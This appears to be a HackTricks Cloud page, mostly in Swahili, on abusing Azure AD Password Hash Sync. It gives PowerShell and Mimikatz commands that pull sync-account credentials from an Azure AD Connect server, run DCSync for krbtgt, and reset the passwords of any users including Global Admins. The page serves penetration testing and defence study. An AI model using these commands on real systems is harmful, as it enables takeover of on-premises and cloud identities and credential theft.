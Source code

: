 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Sawa na usawazishaji wa hash ya nywila** ni moja ya mbinu za kuingia zinazotumika kufanikisha utambulisho wa hybrid. **Azure AD Connect** inasawazisha hash, ya hash, ya nywila ya mtumiaji kutoka kwa mfano wa Active Directory wa ndani hadi mfano wa Azure AD wa msingi wa wingu.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Ni **mbinu ya kawaida zaidi** inayotumiwa na kampuni kusawazisha AD ya ndani na Azure AD.

Wote **watumiaji** na **hash ya nywila za hash** wanasawazishwa kutoka kwa AD ya ndani hadi Azure AD. Hata hivyo, **nywila za maandiko wazi** au **hashi za asili** hazitumwi kwa Azure AD.\
Zaidi ya hayo, vikundi vya usalama **vilivyojengwa ndani** (kama wasimamizi wa kikoa...) **havisawazishwi** kwa Azure AD.

**Usawazishaji wa hash** unafanyika kila **dakika 2**. Hata hivyo, kwa kawaida, **kuisha kwa nywila** na **kuisha kwa akaunti** **hakusawazishwi** katika Azure AD. Hivyo, mtumiaji ambaye **nywila yake ya ndani imeisha** (haijabadilishwa) anaweza kuendelea **kupata rasilimali za Azure** akitumia nywila ya zamani.

Wakati mtumiaji wa ndani anapotaka kupata rasilimali ya Azure, **uthibitishaji unafanyika kwenye Azure AD**.

**PHS** inahitajika kwa vipengele kama **Ulinzi wa Utambulisho** na Huduma za Kikoa za AAD.

## Pivoting

Wakati PHS imewekwa, baadhi ya **akaunti zenye mamlaka** zinaanzishwa kiotomatiki:

* Akaunti **`MSOL_<installationID>`** inaanzishwa kiotomatiki katika AD ya ndani. Akaunti hii inapewa jukumu la **Akaunti za Usawazishaji wa Katalogi** (tazama [nyaraka](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) ambayo inamaanisha kwamba ina **idhini za kuiga (DCSync) katika AD ya ndani**.
* Akaunti **`Sync_<name of on-prem ADConnect Server>_installationID`** inaanzishwa katika Azure AD. Akaunti hii inaweza **kurekebisha nywila ya MTUMIAJI YOYOTE** (iliyowekwa sawa au ya wingu pekee) katika Azure AD.

Nywila za akaunti hizo mbili zenye mamlaka zimehifadhiwa katika **seva ya SQL** kwenye seva ambapo **Azure AD Connect imewekwa.** Wasimamizi wanaweza kutoa nywila za watumiaji hao wenye mamlaka kwa maandiko wazi.\
Hifadhidata iko katika `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Inawezekana kutoa usanidi kutoka moja ya meza, ikiwa moja imefichwa:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Usanidi uliofichwa** umefichwa kwa **DPAPI** na unajumuisha **nywila za mtumiaji `MSOL_*`** katika AD ya ndani na nywila ya **Sync\_\*** katika AzureAD. Hivyo, kuathiri hizi inawezekana kupandisha hadhi hadi AD na AzureAD.

Unaweza kupata [muonekano kamili wa jinsi nyaraka hizi zinavyohifadhiwa na kufichuliwa katika mazungumzo haya](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

Ikiwa **seva ambapo Azure AD connect imewekwa** imeunganishwa na kikoa (iliyopendekezwa katika nyaraka), inawezekana kuipata kwa:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Kutumia MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Unaweza pia kutumia [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) kupata hizi akauti.
{% endhint %}

### Kutumia Sync\_\*

Kuharibu akaunti ya **`Sync_*`** inawezekana **kurekebisha nenosiri** la mtumiaji yeyote (ikiwemo Wasimamizi wa Kimataifa)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Ni pia inawezekana **kubadilisha nywila za watumiaji wa wingu tu** (hata kama hiyo siyo ya kutarajia)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Ni uwezekano wa kutoa nenosiri la mtumiaji huyu.

{% hint style="danger" %}
Chaguo lingine lingekuwa **kutoa ruhusa za kipaumbele kwa huduma ya msingi**, ambayo mtumiaji wa **Sync** ana **ruhusa** ya kufanya, na kisha **kufikia huduma hiyo ya msingi** kama njia ya privesc.
{% endhint %}

### Seamless SSO

Ni uwezekano wa kutumia Seamless SSO na PHS, ambayo inakabiliwa na matumizi mengine mabaya. Angalia katika:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Marejeleo

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
